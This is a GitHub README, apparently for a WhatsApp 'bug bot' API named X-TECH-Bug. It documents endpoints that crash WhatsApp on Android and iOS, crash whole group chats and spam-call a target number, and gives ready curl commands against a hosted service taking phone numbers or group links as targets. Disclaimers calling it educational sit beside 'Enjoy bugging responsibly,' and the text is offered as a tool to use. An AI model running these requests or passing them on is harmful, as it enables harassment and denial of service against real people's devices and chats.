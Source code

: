 # TELEGRAM-BUG-BOT

# 🚀X-TECH-Bug API

The **X-TECH-Bug API** is a powerful endpoint API developed by **[X-TECH-CORP](https://github.com/X-TECH-CORP)** to exploit vulnerabilities in WhatsApp. This API provides endpoints that can:

- 🛑 Delay WhatsApp on Android devices.
- 🌋 Spam Call Users on WhatsApp.
- 🍎 Crash WhatsApp on iOS devices.
- 💥 Crash entire WhatsApp group chats.

> **⚠️ Warning:** This API is for educational purposes only. Misuse of this tool may result in serious legal consequences. Use responsibly.

---

## 🌟 Features

- 🔥 **Delay Android Devices**  
- 🕸️ **Spam Call Users**
- 🍏 **Crash iOS Devices**  
- 💬 **Crash Group Chats**

---

## 📌 Endpoints

### 1 **Delay Android WhatsApp**  
**Description:** Delay and crashes WhatsApp on Android devices.  
**Endpoint:**  
```bash
GET ${api_link}/freezeDroid?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 2 **Spam Call Users**  
**Description:** Spam call users on WhatsApp.  
**Endpoint:**  
```bash
GET ${api_link}/callSpam?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 3 **Crash iOS WhatsApp**  
**Description:** Crashes WhatsApp on iOS devices.  
**Endpoint:**  
```bash
GET ${api_link}/iosCrash?target=${number}
```  
**Parameters:**  
| Key      | Type   | Description                        |
|----------|--------|------------------------------------|
| `target` | String | The WhatsApp number to be targeted |

---

### 4 **Crash Group Chats**  
**Description:** Crashes an entire WhatsApp group chat.  
**Endpoint:**  
```bash
GET ${api_link}/crashGroup?target=${grouplink}
```  
**Parameters:**  
| Key        | Type   | Description                              |
|------------|--------|------------------------------------------|
| `target`   | String | The WhatsApp group chat link to target.  |

---

# Setup For Deployment 👇

## 🎯 Generate Pair Code For Session
[![Xeon](https://repl.it/badge/github/quiec/whatsasena)](https://replit.com/@DGXeon/Xeon-PairCode)

## ⚠️ Disclaimer

**Note:**  
This API is designed strictly for educational and research purposes to highlight vulnerabilities in applications. Any unauthorized use to harm individuals, groups, or organizations is strictly prohibited. Ensure you comply with all applicable laws before using this API.

---

## 💻 Example Usage

```bash
# Delay Android WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/freezeDroid?target=1234567890"

# Spam Call User
curl -X GET "https://xeon-bug-api.onrender.com/callSpam?target=1234567890"

# Crash iOS WhatsApp
curl -X GET "https://xeon-bug-api.onrender.com/iosCrash?target=1234567890"

# Crash Group Chat
curl -X GET "https://xeon-bug-api.onrender.com/crashGroup?target=https://chat.whatsapp.com/exampleGroupLink"
```

---

### 👨‍💻 Developed By: **[X-TECH-CORP](https://github.com/X-TECH-CORP)**

Enjoy bugging responsibly! ✨

